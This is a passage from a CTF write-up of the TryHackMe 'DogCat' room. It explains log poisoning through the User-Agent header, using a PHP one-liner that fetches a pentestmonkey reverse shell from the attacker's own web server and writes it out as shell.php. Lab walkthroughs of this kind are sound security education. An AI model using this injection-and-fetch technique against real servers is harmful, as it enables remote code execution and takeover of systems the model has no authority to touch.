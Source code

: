 ![[dogcat_14.png]](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/TryHackMe/DogCat/images/dogcat_14.png)

Yes it does!

Now all we want is a `php-reverse-shell` and to get it onto the system through the log.

We can use `PHP` to set file contents with `file_put_contents()` and we can grab file contents with `file_get_contents()`. The latter will allow us to even grab contents from a server. That means, with a `curl` request we can grab the contents of a file and place it in a new file on the server.

We could do this two ways.

```php
data = file_get_contents('<webserver with php rev shell>');
file_put_contents('shell.php', $data);

// OR
file_put_contents('shell.php', file_get_contents('<webserver>'));
```

The second is easier and cleaner. We just have to put it in the `User-Agent`.

First, we'll grab the `php-reverse-shell` from `pentestmonkey` and set it up correctly to use our `IP` and a `PORT` we specify. Then serve it up on a web-server using the Python `http.server` module.

![[dogcat_15.png]](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/TryHackMe/DogCat/images/dogcat_15.png)
